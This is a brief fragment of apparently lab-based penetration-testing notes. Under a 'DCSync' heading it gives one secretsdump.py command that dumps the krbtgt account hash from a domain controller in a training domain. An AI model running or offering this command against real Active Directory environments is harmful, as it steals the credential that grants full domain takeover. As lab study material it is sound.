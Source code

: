 
[[DCSync]]
```bash-session
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```
